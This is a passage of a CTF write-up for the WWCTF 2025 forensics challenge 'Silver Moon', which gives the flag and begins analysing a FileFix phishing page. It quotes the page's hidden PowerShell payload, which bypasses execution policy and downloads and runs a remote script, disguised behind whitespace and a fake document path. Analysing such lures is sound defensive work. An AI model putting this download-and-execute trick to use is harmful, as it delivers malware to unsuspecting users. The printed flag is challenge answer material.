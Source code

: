 
---

title: WWCTF 2025

  

date: 2025-08-01

  

draft: false

  

description: "This page contain writeup for Silver Moon of forensic challenge from the WWCTF 2025."

  

summary: "This page contains WWCTF 2025 writeups, covering Silver Moon in the forensics category."

  

tags: ["ctf"]

  

categories: ["ctf"]

  

---

  

# Silver Moon

>Rumors whisper of a shadow moving beneath the Silver Moon. Investigate the strange occurrences and reveal the demon’s hidden technique before it’s too late 
> WARNING: Do not run the malware file on your PC.
> https://powershell.wwctf.com/

  

Flag: `wwf{f1l3f1x_t0_sl1v3r_b34c0n}`

  

#ctf #foresnic #malware

  

## File Fix Phishing Page

Upon visiting the page, we are served with [file fix](https://thehackernews.com/2025/06/new-filefix-method-emerges-as-threat.html) phishing page.

![](https://i.imgur.com/86LkQwl.png)


  

Upon copying the *fake file path*, the malicious script can be observed.

```Powershell

powershell -ep bypass -w hidden IEX(New-ObjEct System.Net.Webclient).Downloadstring('https://powershell.wwctf.com/update.ps1')                                                                                                                # C:\HR\Application.docx                                                                    

```
